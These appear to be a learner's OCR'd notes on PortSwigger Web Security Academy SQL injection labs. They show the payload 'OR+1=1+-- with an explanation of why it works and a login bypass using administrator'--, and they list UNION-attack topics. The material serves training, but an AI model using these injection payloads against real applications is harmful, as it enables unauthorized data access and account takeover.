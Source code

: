 ***<span style="text-decoration:underline;">Exploit:  
</span>*** ** ***  
*** ***'OR+1=1+--***  
  
**Exploit Analysis:**  
SELECT \* FROM products WHERE category = ‘’OR 1=1 \[always True\] -- AND
released = 1 \[Becomes a comment\]  
^  
|\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_ &lt;Boolean&gt;  
  
  
  

## Subverting application logic

  
**

## Lab 02:

  
***Query:***
`SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'`  
***Task***: Bypassing the login page  
***URL:***
<https://acf51ffc1f5b172f80de08f100ec0071.web-security-academy.net/login>  
  
***Testing Phase:***  
SELECT \* users WHERE username = ‘administrator' --’ AND password =
‘''’  
Exploit:  
username=administrator'(%27)-- & password=''(%27%27)  
POC:  
[![](../_resources/15-1.png)]()  
  
UNION based SQLi  
Explanation:
<https://portswigger.net/web-security/sql-injection/union-attacks>  
  
Points to remember:  
◇

## Determining the number of columns required in an SQL injection UNION attack

  
◇

## Finding columns with a useful data type in an SQL injection UNION attack

  
◇

# retrieving data from other tables
